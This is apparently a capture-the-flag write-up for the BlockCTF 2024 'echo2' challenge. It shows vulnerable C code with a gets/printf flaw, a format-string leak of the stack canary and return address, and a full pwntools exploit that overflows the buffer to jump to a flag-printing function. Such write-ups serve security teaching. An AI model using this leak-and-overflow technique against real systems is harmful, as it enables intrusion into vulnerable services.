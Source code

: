 +++
title = 'BlockCTF 2024 - pwn/echo2'
date = 2024-11-11T20:52:37-05:00
draft = false
+++

We are given a binary with all protectoins turned on and c source code.

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>

void print_flag() {
    uint8_t flag_buffer[256] = {0};
    int fd = open("flag.txt", O_RDONLY);
    read(fd, flag_buffer, sizeof(flag_buffer));
    puts(flag_buffer);
    close(fd);
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    printf(echo_buffer);
    fflush(stdout);
}

int main(void) {
    while(1) {
        do_echo();
    }
    return 0;
}
```

There is a buffer overflow and printf vulnerability in do_echo(). We can set a breakpoint in do_echo() after printf and enter a format string to leak the canary and an address.

Sending our format string
```shell
%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx
```
We leak out the stack
```shell
5555555592a1.0.7ffff7f8b8e055555555934b.0.2e786c252e786c25.252e786c25786c25.252e786c252e786c6c25786c252e786c.6c252e786c252e78.6c252e786c252e78.786c252e786c2578.786c252e786c252e2e786c25786c252e.2e786c252e786c25.25786c252e786c25.252e786c252e786c.252e786c252e786c6c252e786c25786c.6c252e786c252e78.786c25786c252e78.786c252e786c252e.786c252e786c252e2e786c252e786c25.2e786c252e786c25.252e786c25786c25.786c.00.0.0.0.00.0.0.0.07befa8536e8aba00.7fffffffe338.5555555555b5.5555555555a1.7ffff7dc9e087fffffffe260.7fffffffe338
```

`07befa8536e8aba00` at offset 39 looks like our canary and at offset 41 is the saved RIP. In gdb with the gef extenstoin, we can use the command 'canary' to print out the canary and confirm that we have the right one. Similarly we can use 'info frame' to see that we have the right RIP.

The saved RIP address is main+20. We can calculate the offset between this andress and the start of the print_flag fucntion, which is 908. Putting it all together:

```python
from pwn import *

target = remote("54.85.45.101", 8009)

# leak canary
payload = "%39$lx"
target.sendline(payload)
canary = int(target.recv(16),16)
log.info(hex(canary))

# leak RIP
payload = "%41$lx"
target.sendline(payload)
rip = int(target.recv(12),16)
log.info(hex(rip))

# offset from leak to print_flag = 908
payload = b"A" * 264 + p64(canary) + p64(0xdeadbeef) + p64(rip - 908)
target.sendline(payload)
target.interactive()
```

flag{aslr_and_canari3s_are_n0_match_f0r_l3aky_stacks}